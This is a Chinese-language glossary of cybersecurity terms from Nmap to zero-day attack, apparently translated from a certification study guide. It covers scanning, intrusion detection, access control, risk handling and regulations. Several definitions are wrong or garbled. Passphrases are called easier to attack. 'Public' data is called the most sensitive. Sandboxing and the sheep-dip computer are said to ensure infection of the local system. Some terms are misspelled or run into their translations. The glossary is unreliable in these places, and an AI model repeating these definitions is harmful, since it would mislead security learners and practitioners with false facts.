`Nmap`：目前最流行的扫描工具之一。通过在扫描数据包中设置某些标志进行扫描，安全分析师（以及黑客）可以根据接收到的响应做出某些假设。`Nmap` 可用于许多操作，执行某些攻击。当用于扫描时，它通常会定位设备、定位设备上的端口，并确定每个主机的操作系统。

无凭证扫描：由对被扫描主机没有管理权限的人执行的扫描。

`NS`：名称服务器记录，代表映射到 `IPv4` 地址的 `DNS` 服务器。

`Nlookup`：一种用于测试和排除 `DNS` 服务器故障的 `Windows` 命令行管理工具。

`NULL` 扫描：系列包含序列号为 `0` 且未设置标志的 `TCP` 包。

数字密码：仅包含数字的密码。

一次性密码 (`OTP`)：提供最高安全级别的密码，因为它们在使用一次后就会被丢弃。

开放授权 (`OAuth`)：一种授权标准，允许用户在不使用凭据的情况下将一个站点的私有资源共享到另一个站点。

开安全信息管理 (`OSSIM`)：`AlienVault` 的开源 `SIEM` 系统。

`OpenID`：`OpenID Foundation` 的开放标准和去中心化协议，允许用户通过某些站点进行身份验证。

`OpenSSL`：`SSL` 和 `TLS` 的开源实现，用于确保机器及其运行的应用代码的身份。安装 `OpenSSL` 后，将可以使用一组命令。

`OpenVAS`：从 `Nessus` 代码库开发的开源漏洞扫描器，作为许多 `Linux` 发行版的包可用。

操作系统指纹识别：使用某些方法确定主机或服务器上运行的操作系统的过程。

运营控制审查：对有助于预防威胁或降低威胁概率的策略、程序和工作实践进行审查。

操作系统和进程分析工具：关注操作系统活动和已执行进程的工具。

带外通信：不使用公司电子邮件或 `VoIP` 等常规通信方法。

旁观测试：一种手动同级评审类型，在一名开发人员走过代码时，另一名开发者在作者肩旁观察。

`OWASP Zed` 攻击代理 (`ZAP`)：一种可尝试让应用程序生成错误的工具。

数据包分析：仅关注数据包头部信息的分析。

包分析器：从网络上捕获原始包的工具。

包捕获 (`packet capture`)：捕捉原始数据包的过程。

包过滤防火墙 (`packet-filtering firewalls`)：仅检查数据包头部以允许的 `IP` 地址或端口的防火墙。

配对编程测试 (`pair programming testing`)：一种手动同行评审，两个作者在同一工作站共同开发代码。

部分回归测试 (`partial regression testing`)：新代码与旧代码的其他部分进行交互的回归测试。

部分知识测试 (`partial-knowledge test`)：测试团队获得有关组织网络公共知识的测试。

被动漏洞扫描器 (`passive vulnerability scanner`)：在包层监控网络流量以确定拓扑、服务和漏洞的扫描器。

短语密码 (`passphrase passwords`)：长短语形式的密码。由于长度的原因，更容易记忆更容易攻击得多，这两者都是明确的优势。

密码复杂度 (`password complexity`)：密码的结构方式。大多数组织要求包含大小写字母、数字和特殊字符。

密码破解器 (`password crackers`)：破解密码的工具。

密码历史 (`password history`)：密码可以重新使用之前的时间。密码策略通常会记住以前使用过的密码数量。

密码长度 (`password length`)：密码的长度。大多数组织要求 8 到 12 个字符。

密码寿命 (`password life`)：密码的有效期。对于大多数组织，密码的有效期为 60 到 90 天。

专利 (`patent`)：授予个人或公司的权利，用于专利申请书中描述的发明。

模式匹配 (`pattern-matching`)：`IDS`（`IDS`）将流量与攻击模式数据库进行比较的过程。当 `IDS` 检测到匹配攻击模式的流量时，会执行特定的步骤。

卡片行业数据安全标准 (`PCI-DSS`)：影响任何处理主要信用卡公司持卡人信息的组织的标准。它鼓励并增强了持卡人数据安全，并促进在全球范围内广泛采用一致的数据安全措施。

`peachuzzer`：一种模糊测试应用程序，具有一个名为 `StringMutator` 的变异器，可持续更改输入。

点对点 (`peer-to-peer`)：发生在网络内点与点之间的流量。

点对点僵尸 (`peer-to-peer botnet`)：可以从外部访问的设备中的僵尸网络被攻破，并运行服务器软件，使其内部招募的无法与外部命令控制服务器通信的设备的命令控制服务器。

渗透测试 (`penetration testing`)：旨在模拟对系统、网络或应用程序进行攻击的测试。其价值在于能够发现可能未被注意的安全漏洞。

个人健康信息 (`PHI`)：个人的医疗记录，必须按照 1996 年《健康保险流通与责任法案》中包含的规定的特定方式进行保护。

个人信息保护和电子文件法 (`PIPEDA`)：一项影响加拿大在商业业务过程中收集、使用和披露个人信息的私营部门组织的法律。

个人身份识别信息 (`PII`)：可以单独或与其他信息结合来识别单个人的任何数据。

网络钓鱼/网络钓持 (`phishing/pharming`)：一种社会工程攻击，攻击者试图获取个人信息，包括信用卡信息和财务数据。此类攻击通常通过建立一个与合法网站非常相似的假网站来实现。网络钓持（`Pharming`）与钓鱼类似，但网络钓持实际上会污染计算机的 `DNS` 缓存内容，导致对合法网站的请求实际上被路由到替代站点。

物理控制 (`physical controls`)：为保护组织设施和人员而实施的控制措施。

`ping`：一种利用 `ICMP` 协议测试两个设备之间连接性的命令。

`ping` 扫描 (`ping sweeps`)：也称为 `ICMP` 扫描，使用 `ICMP` 协议通过 `ping` 知网络中的所有 `IP` 地址来识别所有活动主机的过程。

计划/启动阶段 (`plan/initiate phase`)：软件开发生命周期（`SDLC`）中的一个阶段，组织在此决定启动新的软件开发项目并正式规划项目。

插件 (`plug-in`)：漏洞扫描器的更新，类似于定期向个人计算机病毒防护程序中添加和更新的病毒定义。

点对点隧道协议 (`PPTP`)：一种基于 `PPP` 的微软协议。它使用内置的微软对点加密（Microsoft Point-to-point encryption），并可以使用多种验证方法，包括 `CHAP`、`MS-CHAP` 和 `EAP-TLS`。

策略决策点 (`PDP`)：从 `XACML` 中检索所有适用策略、将请求与策略进行比较，并将答案（允许或拒绝访问）传回 `PEP` 的实体。

策略执行点 (`PEP`)：保护主体（用户或应用程序）尝试访问的资源的实体。

端口扫描 (`port scan`)：尝试连接到每个设备上的每个端口并报告哪些端口是开放或处于“监听”状态的扫描。

端口安全 (`port security`)：可以控制交换机端口上可见 `MAC` 地址数量或允许的特定 `MAC` 地址的技术。

预防性控制 (`preventive controls`)：防止攻击发生的控制措施。

私有 (`private`)：尽管可能不会给公司造成损害，但由于其他原因必须保持私密的数据。

私有 `VLAN` (`PVLAN`)：使用端口隔离来限制交换机端口，使其只能与给定的“上行”通信的网络。受限的端口被称为“私有端口”。它们在二层上划分现有的 `VLAN`。

权限提升 (`privilege elevation`)：攻击者通过虚拟机执行访客操作系统与硬件之间调用职责时引入的漏洞，在访客操作系统中提升权限的情况。

进程管理器 (`Process Explorer`)：一种允许你在无需打开任务管理器的情况下，在通知区域查看 `CPU` 占用最高的程序的工具。这允许你查看任务管理器图表并识别过去导致峰值的原因，这是任务管理器无法到的。

可编程逻辑控制器 (`PLC`)：连接传感器并将传感器数据转换为数字数据的组件；它们不包括遥测硬件。

混杂端口 (`promiscuous port`)：`PVLAN` 中使用的端口设置，允许端口与所有私有 `VLAN` 通信。

专有 (`proprietary`)：可能减少公司竞争优势的信息，以及新产品的技术规范。

基于协议异常的 (`protocol anomaly-based`)：对其要监控的协议拥有了解的 `IDS`。建立正常使用配置文件并与活动进行比较。

配置服务提供者 (`PSP`)：响应 `RA` 请求的实体。

配置服务目标 (`PST`)：执行配置的实体。

代理防火墙 (`proxy firewalls`)：位于从外部到内部的连接之间并代表端点建立连接的防火墙。

公共 (`public`)：公司使用的最敏感的数据，即使泄露造成的损害也最小。

清除 (`purging`)：即使使用先进的取证技术也无法访问的数据。

`QRadar`：一种 `SIEM` 系统，通过应用高级分析将多个事件链链，并识别需要采取的安全事件，帮助消除噪声。

定性风险分析 (`qualitative risk analysis`)：包括直觉、经验和最佳实践的分析技术，如脑风暴、焦点小组、调查问卷、会议和面试。

`Qualys`：云漏洞扫描器的示例。传感器部署在网络中，这些传感器将数据上传到云端进行分析。

定量风险分析 (`quantitative risk analysis`)：为风险分析过程的所有方面分配货币和数值的分析，包括资产价值、威胁频率、漏洞严重性、影响、防护成本等。

竞态条件 (`race condition`)：黑客在指令之间插入自己、引入更改并改变指令执行顺序，从而改变结果的攻击方式。

真实用户监控 (`RUM`)：在 Web 应用程序运行时对真实用户事务进行监控。

恢复性控制 (`recovery controls`)：在攻击发生后恢复系统或设备的控制措施。

恢复点目标 (`RPO`)：中断时恢复到的时间点。必须返回资源或函数。

恢复时间目标 (`RTO`)：在灾难或破坏性事件发生后，必须恢复资源或功能以避免产生不可接受后果的最短时间段。

红队 (`Red team`)：在模拟中充当攻击方的团队。

注册表/配置工具：用于帮助识别注册表中受感染的设置以及识别最后保存的设置的工具。

关系型数据库管理系统 (`RDBMS`)：用于管理关系型数据库的应用程序。

发布/维护阶段：软件开发生命周期（`SDLC`）中的一个阶段，在此阶段将软件部署到生产环境中并继续对其操作进行监控。

远程认证拨号用户服务 (`RADIUS`)：`802.1x` 框架中认证服务器的标准。

远程终端单元 (`RTU`)：连接到传感器并将传感器数据转换为数字数据的组件，包括遥测硬件。

移除 (`removal`)：在事件发生期间关闭设备的过程。

请求授权 (`RA`)：发起配置请求的实体。

残余风险：在实施保护措施后剩余的风险。

资源监控工具：用于监控单个设备或网络的计算机资源使用情况的工具。

逆向工程：根据受影响设备中的日志，或可能参与设备间信息传输的基础设施日志，追溯事件发生时的步骤。一种分析软件以发现其工作原理或确定是否存在恶意软件的方法。

风险接受：理解并接受风险水平以及可能发生的损害成本。

风险偏好：组织接受风险的相对意愿程度。

风险评估矩阵：用于优先将资源应用到最关键漏洞的工具。

风险规避：终止导致风险的活动，或选择一个风险较小的替代方案。

风险评判：识别威胁和潜在攻击，并针对这些威胁和攻击实施适当的缓解措施。

风险缓解：定义组织可以承受的接受风险水平并将风险降低到该水平。

风险转移：将风险转移给第三方（例如保险公司）。

非法接入点 (`rogue access points`)：你无法控制或管理的接入点 (`AP`)。

非法端点 (`rogue endpoints`)：存在但你无法控制或维护的设备。

非法交换机 (`rogue switches`)：你既没有创建也没有管理的交换机。

基于角色的访问控制 (`RBAC`)：一种根据工作角色安全组组织用户的安排，然后授予其执行该工作所需的权利和权限。

基于角色的 `NAC`：一种基于分配的角色做出访问决策的网络访问控制 (`NAC`)。

根内核程序 (`rootkit`)：黑客可以在已获得访问权限并提升权限至管理员的计算机上使用的一系列工具。

基于规则或启发式的 (`rule- or heuristic-based`)：一种 `IDS`，它是一种使用知识库、推理引擎和基于规则编程的专家系统。知识被配置为规则。

基于规则的 `NAC`：一种基于规则做出访问决策的网络访问控制 (`NAC`)，例如“所有设备都必须安装最新的反病毒软件补丁”。

交战规则 (`rules of engagement`)：定义渗透测试应如何进行的文档。

保护措施价值 (`safeguard value`)：保护措施成本与威胁成本之间的差异。

沙箱工具：在安全环境中进行手动恶意软件分析的工具。

沙箱化 (`sandboxing`)：一可以在安全环境中运行可能有害程序的技术，以确保其感染本地系统。

清理 (`sanitization`)：通过多次覆盖驱动器移除所有威胁痕迹的过程，以确保威胁被清除。

《萨班斯-奥克斯利法案》(`SOX Act`)：一项影响任何在美国上市的组织的法案。它控制组织的会计方法和财务报告，并对执行人员规定了罚款甚至监禁。

`SCADA` 设备：通过通信信道使用编码信号运行的设备，以便对远程设备进行控制。

扫描范围 (`scope`)：定义将要扫描的内容以及将执行什么类型的扫描。

屏幕主机防火墙：位于最终路由器和内部网络之间的防火墙。

屏障子网 (`screen subnet`)：使用两个防火墙的情况，进入内部网络的流量在两个防火墙处都会经过检查。它被称为屏障子网是因为两个防火墙之间有一个子网，可以作为外部世界资源的 `DMZ`（脱特区）。

机密 (`secret`)：如果泄露可能对国家安全造成严重损害的信息。

多厂商环境应用安全系统 (`SESAME`)：一种同时使用对称和非对称加密保护交换数据的认证过程。

安全外壳 (`SSH`)：一种通过安全隧道远程登录另一台计算机的应用程序和协议。

安全套接层 (`SSL`)：用于创建到服务器安全连接的协议。它工作在 `OSI` 模型的应用层。

安全即服务 (`SaaS`)：一个涵盖第三方提供的许多安全服务的术语，这些拥有比组织内部可能存在的人才和经验。

安全宣告标记语言 (`SAML`)：一种在 `SPML` 中使用的语言。

安全内容自动化协议 (`SCAP`)：安全自动化社区用于列举软件缺陷和配置问题的标准。

安全信息和事件管理 (`SIEM`)：一种用于收集日志、分析事件并决定需要关注何处的自动化解决方案。

安全回归测试：验证更改是否降低了应用程序的安全性，或开启了更改之前不存在的新漏洞的测试。

安全套件 (`security suite`)：组合成单一工具的安全实用程序集。

分段 (`segmentation`)：利用现有网络分段作为屏障，防止事件扩散到其他分段，从而限制事件的范围。

高管报告：一种提供更多图表和更少细节的报告，供非技术决策者演示。

敏感非机密 (`sensitive but unclassified`)：可能不会对国家安全造成严重损害，但可能导致公民对政府声誉产生质疑的数据。

敏感 (`sensitivity`)：衡量数据处理自由程度的指标。

传感器 (`sensors`)：用于在长距离传输 `SCADA` 数据的数字或模拟 `I/O`。

职责分离 (`separation of duties`)：将敏感操作划分给多个用户的概念，以确保没有一个用户拥有单独执行某操作的权利和权限。

基于服务器的扫描 (`server-based scan`)：一种无代理的并使用推推技术的扫描。

服务发现 (`service discovery`)：确定系统上运行哪些服务的过程。

服务水平协议 (`SLA`)：一份规定一方提供的服务、此类服务的成本以及性能预期的文档。

服务提供商 (`SP`)：为组织收取费用提供服务的第三方。

服务供应标记语言 (`SPML`)：一种用于合作组织之间交换授权信息的标准。

会话 `ID` (`session ID`)：用于识别已验证会话的值。

`SHAsum`：一种用于证明完整性的哈希算法。

洗毒计算机 (`sheep dip computer`)：一可以在安全环境中运行可能有害程序的技术，以确保其感染本地系统。

谢尔伍德应用业务安全架构 (`SABS`)：一种企业安全架构框架，它使用了六个通信问题（什么、哪里、何时、为什么、谁、如何）与六层（操作层、组件层、物理层、逻辑层、概念层和语境层）交叉。

`Shibboleth`：一个开源项目，提供单点登录功能，并允许网站以保护隐私的方式对受保护在线资源的个人访问做出知情的授权决策。

窥视攻击 (`shoulder surfing`)：一种攻击者偷看用户输入内容的方式 登录或其他机密数据。

基于特征的 (`signature-based`)：一种入侵检测系统（`IDS`），通过分析流量并与 `IDS` 数据库中的攻击或状态模式（称为特征）进行对比。

单点登录 (`SSO`)：一种系统，通过一个密码即可访问所有已授权的资源。

黑洞路由 (`sinkhole`)：一种设计用于接收和分析攻击流量的路由器。

单次损失预期 (`SLE`)：每次威胁发生时产生的资金影响。

`Snort`：一种基于 `Sourcefire` 开源网络入侵检测系统（`NIDS`）。

`SOA`：权限记录（Start of Authority），代表对某个 `DNS` 命名空间具有权威性的 `DNS` 服务器。

`SOC 1`：一份涵盖财务报告内部控制的报告。

`SOC 2`：一份涵盖安全性、可用性、处理完整性、机密性或隐私控制的报告。

`SOC 3`：一份涵盖安全性、可用性、处理完整性、机密性或隐私控制的摘要报告。

社会工程学 (`social engineering`)：一种攻击类型，攻击者利用可信的语言和用户的轻信来获取用户凭据或其他机密信息。

社交媒体画像分析 (`social media profiling`)：通过社交媒体学习有关组织信息的过程。

软件开发生命周期 (`SDLC`)：一套可预测的程序框架，旨在识别与功能、成本、可靠性和交付计划相关的所有需求，并确保最终解决方案满足每项需求。

`SolarWinds`：一家制造网络、服务器和应用程序监控工具的公司，其中包括 `NetFlow Analyzer`。

`Sourcefire`：品牌为 `Firepower` 设备的下一代入侵防御系统（`NGIPS`）设备制造商。

分拆知识 (`split knowledge`)：一种安全机制，要求两个人在场才能执行某操作，因为任何一个人都不拥有该操作所需的完整知识。

`Splunk`：一种可以部署为本地或云解决方案的 `SIEM`（安全信息和事件管理）系统。它采集的数据可以使用使用 `Splunk` 查询处理语言（`SPL`）编写的查询进行分析。

间谍软件 (`spyware`)：任何收集用户隐私数据（包括浏览历史或键盘输入）的恶意软件。

`SQL` 注入：一种攻击手段，将 `SQL` 查询作为输入数据从客户端“注入”到应用程序中。

`SSL`：套接字层（Sockets Layer），一种为计算机网络提供通信安全性的加密协议。

`SSL` 门户 `VPN`：一种 `SSL` 连接，用户通过单个 `SSL` 连接访问 Web 服务器上的多个服务。通过身份验证后，用户将获得一个作为指向其他服务门户的页面。

`SSL` 隧道 `VPN`：一种 `SSL` 连接，用户可以使用 `SSL` 隧道访问非 Web 服务器的服务器上的服务。

利益相关者 (`stakeholders`)：受事件响应影响的各方。

标准单词密码 (`standard word passwords`)：由单个单词组成的密码，通常包含大小写字母的混合。

状态检测防火墙 (`stateful firewalls`)：能够感知 `TCP` 握手正常运行的防火墙，它们跟踪此过程相关的所有连接状态，并能够识别试图进入网络但在 `TCP` 握手语境下不符合逻辑的封包。

状态匹配 (`stateful matching`)：`IDS` 记录初始操作系统状态的过程。系统任何专门违反定义规则的系统状态更改都会导致发送告警或通知。

静态代码分析 (`static code analysis`)：在不执行代码的情况下进行代码审查的分析。

静态密码 (`static passwords`)：每次登录都相同的密码。

基于统计异常的 (`statistical anomaly-based`)：一种通过对实时环境采样来记录活动的 `IDS`。`IDS` 运行时间越长，构建的画像就越准确。

流加密算法 (`stream-based ciphers`)：按逐位执行加密并使用密钥流生成器的加密算法。

压力测试 (`stress test`)：一种确定应用程序能够承受的工作负载的测试。

继任计划 (`succession planning`)：涉及识别关键员工的继任候选人的计划，并有特定计划培训这些个人，以便他们准备好接任职位并在工作中表现良好。

请求方者 (`supplicant`)：在 `802.1x` 框架中，请求访问网络的用户或设备。

交换机欺骗 (`switch spoofing`)：一种攻击，黑客将其接口伪装成交换机并使用 `DTP` 创建干链路。如果发生这种情况，黑客可以捕获所有 `VLAN` 的流量。

对称算法 (`symmetric algorithm`)：一种使用双方之间必须保密的私钥或秘密密钥的算法。

`SYN` 泛洪 (`SYN flood`)：一种向目标发送大量 `SYN` 数据包的拒绝服务攻击。

合成事务监控 (`synthetic transaction monitoring`)：一种以自动方式对应用程序执行事务并记录应用程序行为的监控。

`SANS` (系统管理、审计、网络与安全)：一个为安全软件开发提供指南并赞助全球信息保证认证（`GIAC`）的组织。

`Sysinternals`：包含 70 多个工具的集合，可用于故障排除和安全问题。

`Syslog`：一种用于日志条目生成、存储和传输的简单框架，任何操作系统、安全软件或应用程序如果设计得当都可以使用。它通常是一个用于收集和集中网络中设备日志的服务器。

系统隔离 (`system isolation`)：一种通过控制与设备的通信来防止其他系统访问系统的过程。

`TACACS+`：终端访问控制器访问控制系统（`TACACS+`），`802.1x` 框架中的 `Cisco` 专有认证服务器。

污点分析 (`taint analysis`)：一种试图识别受用户可控输入污染的变量的分析。

目标测试 (`target test`)：测试团队和组织安全团队获得有关网络和测试类型最大信息的测试。

任务管理器 (`Task Manager`)：一种用于监控资源使用的 `Microsoft` 工具。

`tcpdump`：一种在 `Linux` 和 `Unix` 平台上可以捕获数据包的命令行工具。`Windows` 对应的版本为 `windump`。

技术控制审查 (`technical control review`)：对通过技术实现的控制进行审查，包括文件和文件夹权限列表以及识别和防止威胁的设备。

技术报告 (`technical reports`)：最详尽且最具技术性的报告。对于知识水平较低的接收者可能不适用。

测试/验证阶段 (`test/validate phase`)：`SDLC` 中进行多种测试的阶段，包括识别功能错误和安全问题的测试。

Open Group 架构框架 (`TOGAF`)：一种帮助组织设计、计划和治理企业信息架构的企业架构框架。

票据授予服务 (`TGS`)：颁发 `TGT` 的服务。

票据授予票 (`TGT`)：由 `KDC` 颁给主体的票据，当主体需要连接到另一个实体时使用。

基于时间的 `NAC` (`time-based NAC`)：一种根据时间做出访问决策的网络访问控制。

`TLS`：传输层安全协议，一种为计算机网络提供通信安全性的加密协议。

工具辅助代码审查 (`tool-assisted code review`)：一种作者和审查者使用专用的代码审查工具进行的同行评审。

绝密 (`top secret`)：泄露可能对国家安全造成严重损害的信息。

总风险 (`total risk`)：如果组织决定不实施任何保护措施，可能面临的风险。

`traceroute`：在 `Linux` 和 `Unix` 中追踪数据包在网络中传输路径的命令。

`tracert`：在 `Windows` 中追踪数据包在网络中传输路径的命令。

`trade secret`：商业秘密为组织提供竞争优势的流程或产品。

`trademark`：商标一种保护措施，确保识别产品或组织的符号、声音或表达方式不被其他组织使用。

`traffic analysis`：流量分析关注网络中流量类型的网络分析。

`traffic anomaly-based`：基于流量异常的一种跟踪流量模式变化的入侵检测系统（`IDS`）。所有未来的流量模式都将与样本进行比较。

`transport encryption`：传输加密确保数据在网络或互联网传输时受到保护的加密技术。

`transport mode`：传输模式 `IPsec` 模式，其中安全联盟（`SA`）位于两个终端之间，或位于终端与网关或远程访问服务器之间。

`trend analysis`：趋势分析关注特定类型流量或网络特定行为增加或减少的长期方向分析。该过程使用历史数据和一组数学参数来确定任何可能的趋势。

`trend report`：趋势报告一种工具通过过去的扫描结果，描述风险水平随时间变化的报告。

`Trojan horse`：特洛马病毒伪装成所需应用程序同时携带恶意行为的恶意软件。

`Trusted Foundry`：可信制造美国国防部的一个计划，用于识别可信供应商并确保可信供应链。

`trusted third-party, or bridge, model`：可信第三方桥模型，每个组织都订阅第三方的标准。第三方管理所有组织的验证、认证和尽职调查。

`tunnel mode`：隧道模式 `IPsec` 模式，隧道仅存在网关之间，但所有通过隧道的流量都受到保护。

`unclassified`：未分类信息不属于其他四类中的任何一类，通常必须根据信息自由法向公众开放。

`unified threat management (UTM)`：统一威胁管理一种在同一设备或电器上执行多种安全功能的方法。

`unit regression testing`：单元回归测试作为单个单元测试代码的回归测试。

`United Federal Sentencing Guidelines of 1991`：1991年联邦判刑指南影响触犯重罪和严重（A类）轻罪的个人和组织。它提供了指南以防止美国范围内存在的判刑差异。

`unknown threats`：未知威胁可能已被识别但没有可用特征的威胁。

`USA Patriot Act`：美国爱国者法案增强了执法部门可用的调查工具，并扩大了他们查看电子邮件、电话记录、互联网通信、医疗记录和财务记录的能力。

`user acceptance testing`：用户验收测试旨在确保用户接受的测试。

`usermode debugger`：用户态调试器仅有权访问操作系统用户态空间的调试器。

`validation`：验证一个确保你已完成，并可以根据学到的教训采取纠正措施的过程。

`validation testing`：验证测试确定是否实现了软件原始目的的测试。

`Vega`：一个用 `Java` 编写的开源拦截代理，基于 `GUI` 并运行在 `Linux`、`OS X` 和 `Windows` 上。

`verification testing`：验证测试确定是否满足了原始设计规范。

`vertical privilege escalation`：垂直权限提升当低权限用户或应用程序访问为为高权限用户或应用程序保留的功能或内容时发生的过程。

`virtual private network (VPN)`：虚拟专用网络通过在互联网上创建隧道允许外部设备访问内部网络。

`virus`：病毒附着在另一个应用程序上进行复制或分发的恶意软件。

`VLANs`：虚拟局域网，交换机的逻辑划分，将端口相互隔离开，就像它们在不同的局域网中一样。

`VM escape`：虚拟机逃逸攻击者“突破”虚拟机通常的隔离状态并直接与虚拟化程序交互的情况。

`VM sprawl`：虚拟机泛滥，随着时间推移虚拟机数量增长无法管理的数量的情况。随着这种情况发生，管理员跟上的能力逐渐减弱。

`vulnerability feed`：漏洞馈专门用于共享最新漏洞信息的 `RSS Feed`。

`vulnerability scanning`：漏洞扫描探测各种安全弱点的扫描，包括配置错误、过时软件、缺失补丁和开放端口。

`warchalking`：粉笔标记一种通常与无线漫游配合的行为，无线漫游者在人行道或建筑上用粉笔标出网络 `SSID` 和使用的安全类型。

`wardriving`：无线漫游带着连接到高功率天线的无线设备四处寻找无线局域网的过程。

`web app vulnerability scanning`：Web 应用漏洞扫描关注网络应用程序的扫描。

`web application firewall (WAF)`：Web 应用防火墙对 `HTTP` 会话应用规则集的防火墙。这些规则集涵盖了会话类型易受的常见攻击类型。

`web application proxy`：Web 应用代理位于 Web 服务器和客户端之间的应用程序，往来传递所有请求。在此期间，它分析信息以测试 Web 应用程序的安全性。

`web proxy`：代理代表系统创建连接的代理，通常可以粒度地允许或拒绝流量。

`White team`：白方一组技术人员，负责裁判红队和蓝队之间的模拟对抗。

`Windows AppLocker`：`Windows AppLocker` 微软用于防止未经授权软件的工具。

`wireless key loggers`：无线键盘记录器收集信息并通过蓝牙或 `Wi-Fi` 发送给犯罪者的工具。

`Wireshark`：最常用的嗅探器之一，在配置的接口上捕获原始包并允许你检查每个包。

`work recovery time (WRT)`：恢复时间 `RTO` 和 `MTD` 之间的差异，即 `RTO` 之后达到最大可停机时间之前的剩余时间。

`worm`：蠕虫自我复制的恶意软件，意味着不需要另一个应用程序或人工交互即可传播。

`WPA Enterprise`：`WPA` 企业版 `WiFi` 安全访问变体，使用 `TKIP` 加密和 `Michael` 完整性检查。必须配合 `RADIUS` 服务器使用。

`WPA Personal`：`WPA` 个版 `WiFi` 安全访问变体，使用 `TKIP` 进行加密和 `Michael` 进行完整性检查。可以使用共享密钥。

`WPA2 Enterprise`：`WPA2` 企业版 `WiFi` 安全访问变体，使用 `CCMP AES` 进行加密和 `CCMP` 进行完整性检查。必须配合 `RADIUS` 服务器使用。

`WPA2 Personal`：`WPA2` 个版 `WiFi` 安全访问变体，使用 `CCMP AES` 进行加密和 `CCMP` 进行完整性检查。可以使用共享密钥。

`write blocker`：写保护器一种允许对数据存储设备进行只读访问而不损害数据完整性的工具。

`XMAS scan`：`XMAS` 扫描设置了 `FIN`、`URG` 和 `PSH` 标志的端口扫描。

`Zap`：`OWASP Zed Attack Proxy` 拦截代理，监控客户端和服务器之间的流量，爬取应用程序内容并执行漏洞扫描。

`zero-day attack`：零日攻击实时环境中尚无现有修复程序或补丁的漏洞。
